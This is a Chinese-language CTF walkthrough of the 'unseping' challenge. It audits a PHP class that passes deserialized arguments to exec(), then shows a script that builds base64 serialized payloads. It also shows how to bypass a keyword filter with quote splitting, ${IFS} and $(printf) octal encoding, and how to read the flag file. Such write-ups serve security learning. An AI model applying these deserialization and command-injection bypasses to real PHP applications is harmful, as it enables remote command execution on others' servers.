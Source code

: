 ## unseping

代码审计

```php
<?php
highlight_file(__FILE__);

class ease{
    
    // 构造函数 传参 method 和 args
    private $method;
    private $args;      
    function __construct($method, $args) {    
        $this->method = $method;
        $this->args = $args;
    }
    
    // 析构函数 析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。
    // 该方法检测ping是否在$method中，并调用了名为$method的方法，且以数组$arg中的值作为参数。
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            // 调用用户定义的函数，并使用一个数组作为参数列表。
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
    
    //  该方法的结构为将输入参数作为外部命令进行执行，并返回输出结果。
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }
    
    
    //   以上析构函数 与 ping 函数 实现了作为一个webshell的基本条件。
    
    
    // preg_match_all 用于在字符串中匹配正则表达式的所有匹配项。
    // $pattern：正则表达式的模式字符串，用于匹配目标字符串。
    // $subject：要搜索的目标字符串。
    // $matches（可选）：一个引用数组，用于存储匹配结果
    // 返回匹配的总数。
    
    function waf($str){
    // 判断 str 中 ! 匹配的总数。 匹配数为0 才能返回 原有str
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }

    // wakeup 魔术函数 
    // unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。 
    // __wakeup() 经常用在反序列化操作中，例如重新建立数据库连接，或执行其它初始化操作。 

    // 反序列化的时候 对 args 中的 每个值 进行 waf 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

// 通过POST 接收数据
$ctf=@$_POST['ctf'];
// 反序列化
@unserialize(base64_decode($ctf));
?>
```

## 反序列化 构造 与 析构函数
 序列化和反序列化时 都会 调用__destruct()
![img.png](imgs/序列化反序列时析构函数调用.png)

* 结合源码，析构函数 method 为ping，然后在ping 函数中传入 args，ping函数中exec实现任意代码执行
* wakeup 函数 实现waf 功能，过滤掉关键字符，需绕过

### 本地构造
本地构造 ease 类 并进行序列化与base64编码。
```
<?php
class ease
{
	private $method;
	private $args;

	function __construct($method, $args)
	{
		$this->method = $method;
		$this->args = $args;
	}
}

$a = new ease("ping",array('l""s'));
$b = serialize($a);
var_dump($b);
echo'</br>';
echo base64_encode($b);
?>

输出：
string(85) "O:4:"ease":2:{s:12:"easemethod";s:4:"ping";s:10:"easeargs";a:1:{i:0;s:4:"l""s";}}"
Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czo0OiJsIiJzIjt9fQ==
```
Burupsuit 
* 修改POST，
* 增加行 Content-Type: application/x-www-form-urlencoded
* 通过ctf传值  ctf= Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czo0OiJsIiJzIjt9fQ==

可以看到  存在 flag_1s_here目录

![img.png](imgs/unseping-ls.png)

继续构造
* new ease("ping",array('l""s${IFS}f""lag_1s_here'));

![img.png](imgs/unseping-ls2.png)
可以看到 flag_831b69012c67b35f.php


使用 cat 查看 flag
```
cat flag_1s_here/flag_831b69012c67b35f.php
```

###  绕过姿势
分析源码 会存在以下过滤
```
|，&，;，空格，/，cat，flag，tac，php，ls
```
* ls 引号绕过 'l""s'   构造   array('l""s')。 发现
* 空格过滤 ${IFS} 
* $(printf ) 命令替换
* /是被过滤掉的，可以转成八进制的ASCII码,在这里我写了一个python

```python
def encode_octal(string):

    print(string)
    # ASCII
    print("AsicII")
    for i in string:
        print(ord(i), end="")
    # 只显示八进制
    print("\n八进制")
    for i in string:
        print(oct(ord(i)).replace("0o", "\\"), end="")  # \表示转义     \\ 标识 \

    # 显示Linux八进制payload
    print("\nlinux payload")
    payload = '$(printf${IFS}"'
    for i in string:
        payload += oct(ord(i)).replace("0o", "\\")

    payload += '")'
    print(payload)


if __name__ == '__main__':
    str1 = "cat flag_1s_here/flag_831b69012c67b35f.php"
    encode_octal(str1)
    str2 = "ls -l"
    encode_octal(str2)

```

脚本输出
```
cat flag_1s_here/flag_831b69012c67b35f.php
AsicII
9997116321021089710395491159510410111410147102108971039556514998545748495099545598515310246112104112
八进制
\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160
linux payload
$(printf${IFS}"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")
ls -l
AsicII
1081153245108
八进制
\154\163\40\55\154
linux payload
$(printf${IFS}"\154\163\40\55\154")
```
通过命令替换 执行 ping 函数中的 exec（cat flag_1s_here/flag_831b69012c67b35f.php）
![img.png](imgs/命令替换.png)

继续构造

```
$a = new ease("ping",array('$(printf${IFS}"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")'));
```
![img.png](imgs/unseping-cat.png)
得到flag

##  flag
cyberpeace{89b4be8b39a727ab2d6bc1f893545785}